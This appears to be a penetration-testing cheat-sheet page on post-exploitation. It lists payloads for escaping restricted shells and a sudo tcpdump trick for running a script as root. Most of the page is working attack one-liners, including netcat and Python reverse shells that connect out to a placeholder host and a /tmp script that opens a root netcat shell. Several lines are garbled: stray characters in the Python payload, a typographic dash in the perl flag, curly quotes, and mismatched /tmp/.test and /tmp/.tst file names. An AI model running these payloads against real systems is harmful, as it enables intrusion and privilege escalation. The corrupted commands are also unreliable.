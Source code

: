 ![](../../.gitbook/assets/image%20%282%29.png)

## Post exploitation

{% page-ref page="../../shells.md" %}

### Escaping limited interpreters

#### Some payloads to overcome limited shells:

```text
ssh user@$ip nc $localip 4444 -e /bin/sh
enter user's password

export TERM=linux
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),   *$ 1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```

go into /bin/ and see what binaries are in there.

```text
/bin/csh -i # worked for BSD
```

### From within tcpdump

```text
echo $’id\n/bin/netcat $ip 443 -e /bin/bash’ > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -I eth- -w /dev/null -W 1 -G 1 -z /tmp/.tst -Z root
```

